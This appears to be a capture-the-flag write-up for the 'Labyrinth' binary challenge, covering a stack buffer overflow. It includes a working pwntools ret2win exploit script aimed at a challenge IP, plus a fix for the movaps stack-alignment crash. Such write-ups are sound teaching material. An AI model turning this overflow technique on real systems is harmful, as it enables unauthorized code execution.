 # Labyrinth

We're given an 64-bit ELF called Labyrinth.

Firstly, i analyzed the program using `ida` to disassemble it. We can see a main function of this program.This program expects us to input `69` or `069` to get another user input.Otherwise, the profram will be exit.

![decompile](img/decompile.png)

##Find The Offset

Next, we'll check the buffer offset of this program.We can use `cyclic` in `pwngdb` to find the offset.

To overwrite the return address, we can fill the buffer with `56` byte followed by the destination address.We'll jump to `escape_plan` address cause it opens the flag.txt.

![offset](img/offset.png)


payload :

```
from pwn import *

context.binary = elf = ELF("./labyrinth", checksec=False)


if args.LOCAL:
    p = process(elf.path)
else:
    p = remote('94.237.122.241', 52656)

gdb.attach(p, gdbscript='')

buffer = b"A" * 56
escape = elf.sym['escape_plan']

pay = buffer
pay += p64(escape)

p.sendlineafter(b">> ", b"69")
p.sendlineafter(b">> ", pay)

p.interactive()
```


When i run the payload, the program crashses annd stop at `movaps` intrunction, it's caleed the movaps issue. 

`When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte (0x10) boundary or a general-protection exception`


```
```
pwndbg> x/i $rip
=> 0x70f22b677693:      movaps XMMWORD PTR [rsp+0x40],xmm0
pwndbg>
```
```

##Stack  Alignment Fix

In order to align our stack, we can add a `ret` address, or use the address after the push intruction of `escape_plan` function.

```
Dump of assembler code for function escape_plan:
   0x0000000000401255 <+0>:     push   rbp
   0x0000000000401256 <+1>:     mov    rbp,rsp   <== we can use this or use the ret address
   0x0000000000401259 <+4>:     sub    rsp,0x10
   0x000000000040125d <+8>:     mov    edi,0xa
```

Now, it'work and we got the flag.

![flag](img/flag.png)

[solver](sv.py)







